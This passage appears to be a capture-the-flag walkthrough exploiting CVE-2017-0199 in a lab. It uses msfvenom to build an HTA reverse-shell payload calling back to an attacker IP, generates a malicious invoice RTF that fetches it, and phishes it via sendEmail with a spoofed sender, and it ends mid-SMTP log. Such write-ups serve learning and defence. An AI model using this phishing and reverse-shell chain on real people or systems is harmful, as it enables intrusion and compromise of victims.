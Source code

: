 To exploit CVE-2017-0199, I’ll get the user will open an malicious RTF file, which will make an HTTP request for an HTA file. I’ll want that HTA file to execute code to give me a shell.

### Without Metasploit

#### Generate Documents

First, I’ll use `msfvenom` to generate an HTA file that will give me a reverse shell:

```

root@kali# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=443 -f hta-psh -o msfv.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 6535 bytes
Saved as: msfv.hta

```

Next, I’ll create an RTF file, using scripts from [this GitHub](https://github.com/bhdresh/CVE-2017-0199) and the following options:
- `-M gen` - generate document
- `-w invoice.rtf` - output file name
- `-u http://10.10.14.3/msfv.hta` - url to get the hta from
- `-t rtf` - create rtf document (as opposed to ppsx)
- `-x 0` - disable rtf obfuscation

```

root@kali# python CVE-2017-0199/cve-2017-0199_toolkit.py -M gen -w invoice.rtf -u http://10.10.14.3/msfv.hta -t rtf -x 0
Generating normal RTF payload.

Generated invoice.rtf successfully

```

#### Send Email / Shell

With the document’s prepped, I’ll start a python http.server to serve the hta file, a nc listener to catch my shell, and then send the phish. I’ll use `sendemail` with the following options:
- `-f` - from address, can be anything as long as the domain exists
- `-t` - to address, `nico@megabank.com`
- `-u` - subject
- `-m` - body
- `-a` - attachment
- `-s` - smtp server
- `-v` - verbose

```

root@kali# sendEmail -f 0xdf@megabank.com -t nico@megabank.com -u "Invoice Attached" -m "You are overdue payment" -a invoice.rtf -s 10.10.10.77 -v
Nov 05 12:30:43 kali sendEmail[20365]: DEBUG => Connecting to 10.10.10.77:25
Nov 05 12:30:43 kali sendEmail[20365]: DEBUG => My IP address is: 10.10.14.3
Nov 05 12:30:43 kali sendEmail[20365]: SUCCESS => Received:     220 Mail Service ready
Nov 05 12:30:43 kali sendEmail[20365]: INFO => Sending:         EHLO kali
Nov 05 12:30:43 kali sendEmail[20365]: SUCCESS => Received:     250-REEL, 250-SIZE 20480000, 250-AUTH LOGIN PLAIN, 250 HELP
Nov 05 12:30:43 kali sendEmail[20365]: INFO => Sending:         MAIL FROM:<0xdf@megabank.com>
Nov 05 12:30:43 kali sendEmail[20365]: SUCCESS => Received:     250 OK
Nov 05 12:30:43 kali sendEmail[20365]: INFO => Sending:         RCPT TO:<nico@megabank.com>
Nov 05 12:30:43 kali sendEmail[20365]: SUCCESS => Received:     250 OK
Nov 05 12:30:43 kali sendEmail[20365]: INFO => Sending:         DATA
Nov 05 12:30:43 kali sendEmail[20365]: SUCCESS => Received:     354 OK, send.
```